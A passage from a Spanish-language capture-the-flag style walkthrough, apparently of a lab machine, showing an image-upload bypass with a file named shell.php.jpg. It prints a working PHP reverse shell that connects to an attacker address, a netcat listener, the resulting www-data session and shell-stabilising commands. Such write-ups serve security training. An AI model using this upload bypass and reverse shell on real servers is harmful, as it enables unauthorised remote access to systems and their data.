 Vemos que hay bastantes resultados interesantes, por lo que entraremos en la pagina llamada `/archivo.html`.

```
URL = http://<IP>/themes/archivo.html
```

## Escalate user www-data

Si entramos en dicha pagina veremos una web en la que podremos subir un archivo `.jpg`, por lo que intentaremos subir un `.php` camuflado para crearnos una `reverse shell`:

> shell.php.jpg

```php
<?php
$sock=fsockopen("192.168.5.186",7777);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ponemos esas extensiones al archivo `.php.jpg` para camuflarlo, y antes de enviar el archivo, nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora tendremos que subir el archivo y darle a `subir imagen`, si ahora nos volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 42940
whoami
www-data
```

## Escalate user daphne

Ahora tendremos que sanitizar la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
